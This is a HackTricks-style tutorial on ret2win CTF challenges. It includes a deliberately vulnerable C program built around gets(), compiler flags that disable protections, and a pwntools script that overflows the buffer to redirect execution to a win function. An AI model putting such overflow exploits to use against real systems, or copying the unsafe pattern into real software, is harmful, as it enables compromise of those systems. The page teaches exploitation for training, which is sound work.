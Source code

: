 # Ret2win

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**Ret2win** challenges are a popular category in **Capture The Flag (CTF)** competitions, particularly in tasks that involve **binary exploitation**. The goal is to exploit a vulnerability in a given binary to execute a specific, uninvoked function within the binary, often named something like `win`, `flag`, etc. This function, when executed, usually prints out a flag or a success message. The challenge typically involves overwriting the **return address** on the stack to divert execution flow to the desired function. Here's a more detailed explanation with examples:

### C Example

Consider a simple C program with a vulnerability and a `win` function that we intend to call:

```c
#include <stdio.h>
#include <string.h>

void win() {
    printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
    char buf[64];
    gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
    vulnerable_function();
    return 0;
}
```

To compile this program without stack protections and with **ASLR** disabled, you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

- `-m32`: Compile the program as a 32-bit binary (this is optional but common in CTF challenges).
- `-fno-stack-protector`: Disable protections against stack overflows.
- `-z execstack`: Allow execution of code on the stack.
- `-no-pie`: Disable Position Independent Executable to ensure that the address of the `win` function does not change.
- `-o vulnerable`: Name the output file `vulnerable`.

### Python Exploit using Pwntools

For the exploit, we'll use **pwntools**, a powerful CTF framework for writing exploits. The exploit script will create a payload to overflow the buffer and overwrite the return address with the address of the `win` function.

```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```

To find the address of the `win` function, you can use **gdb**, **objdump**, or any other tool that allows you to inspect binary files. For instance, with `objdump`, you could use:

```sh
objdump -d vulnerable | grep win
```

This command will show you the assembly of the `win` function, including its starting address.&#x20;

The Python script sends a carefully crafted message that, when processed by the `vulnerable_function`, overflows the buffer and overwrites the return address on the stack with the address of `win`. When `vulnerable_function` returns, instead of returning to `main` or exiting, it jumps to `win`, and the message is printed.

## Protections

- [**PIE**](../common-binary-protections-and-bypasses/pie/) **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded. In some cases, when the function that causes the overflow is `read` or similar, you can do a **Partial Overwrite** of 1 or 2 bytes to change the return address to be the win function. Because of how ASLR works, the last three hex nibbles are not randomized, so there is a **1/16 chance** (1 nibble) to get the correct return address.
- [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/) should be also disabled or the compromised EIP return address won't never be followed.

## Other examples & References

- [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
- [https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html](https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html)
  - 32bit, no ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html)
  - 64 bits with ASLR, with a leak of the bin address
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html)
  - 64 bits, no ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html)
  - 32 bits, no ASLR, double small overflow, first to overflow the stack and enlarge the size of the second overflow
- [https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
  - 32 bit, relro, no canary, nx, no pie, format string to overwrite the address `fflush` with the win function (ret2win)
- [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
  - 64 bit, relro, no canary, nx, pie. Partial overwrite to call the win function (ret2win)

{{#include ../../../banners/hacktricks-training.md}}

